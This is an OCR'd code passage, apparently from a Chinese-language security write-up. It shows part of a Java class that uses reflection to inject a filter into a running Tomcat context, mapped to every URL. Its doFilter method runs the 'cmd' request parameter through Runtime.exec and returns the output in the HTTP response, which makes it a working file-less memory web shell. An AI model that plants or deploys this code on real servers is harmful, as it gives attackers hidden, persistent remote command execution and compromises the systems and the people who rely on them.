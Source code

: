 ```java
            filterMap.setFilterName(filterName);
            filterMap.addURLPattern("/*");
            filterMap.setDispatcher(DispatcherType.REQUEST.name());
            standardContext.addFilterMapBefore(filterMap);

            // 封装filterConfig和filterDef到filterConfigs
            Field field_filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
            field_filterConfigs.setAccessible(true);
            Map filterConfigs = (Map) field_filterConfigs.get(standardContext);

            // 利用反射创建FilterConfig，并且将filterDef和standardContext作为参数进行传入进行封装filterDe
            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            constructor.setAccessible(true);
            ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

            // 添加到filterConfigs中
            filterConfigs.put(filterName,applicationFilterConfig);
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        String cmd = servletRequest.getParameter("cmd");
        try{
            if(cmd != null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes, 0, a);
                }
                servletResponse.getWriter().write(new String(bao.toByteArray()));
            }
        }catch (Exception e){
            e.printStackTrace();
        }
        // 使下一个 Filter 能够继续执行
        filterChain.doFilter(servletRequest,servletResponse);
    }

    @Override
    public void destroy() {
    }
}

```
